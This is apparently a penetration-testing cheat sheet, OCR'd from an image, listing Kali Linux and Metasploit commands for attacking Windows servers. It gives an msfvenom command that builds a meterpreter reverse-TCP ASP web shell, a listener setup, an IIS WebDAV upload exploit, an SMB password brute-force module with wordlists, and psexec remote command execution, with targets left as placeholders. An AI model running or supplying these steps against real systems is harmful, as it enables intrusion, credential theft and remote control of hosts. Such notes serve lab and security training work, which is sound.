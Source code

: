 > This command can be used in the pseudo shell to upload the web shell on to the server.

```Shell
/usr/share/webshells
```

> This directory has different web shells with in Kali Linux.

```Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<local_ip> LPORT=1234 -f asp > <output-file-name>.asp
```

> `msfvenom` command to generate a `.asp` shell code.

```msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set LHOTS <local_ip>
set LPORT 1234
exploit
```

> Msfconsole listener setup.

```msfconsole
use exploit/windows/iis/iis_webdav_upload_asp
show options
set HttpUsername <username>
set HttpPassword <password>
set RHOST <ip-address>
set PATH /webdav/metasploit.asp
exploit
```

> This can be used to automate the whole process of uploading and exploitation.

#### SMB Exploitation:

```msfconsole
use auxiliary/scanner/smb/smb_login
show options
set RHOST <ip-address>
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
exploit
```

> This module can be used to brute force users on SMB.

```
psexec.py Administrator@<ip-address> cmd.exe
```

> It will ask for the password after this command.

```msfconsole
use exploit/windows/smb/psexec
show options
set RHOST <ip-address>
set SMBUser <username>
set SMBPass <password>
exploit
```

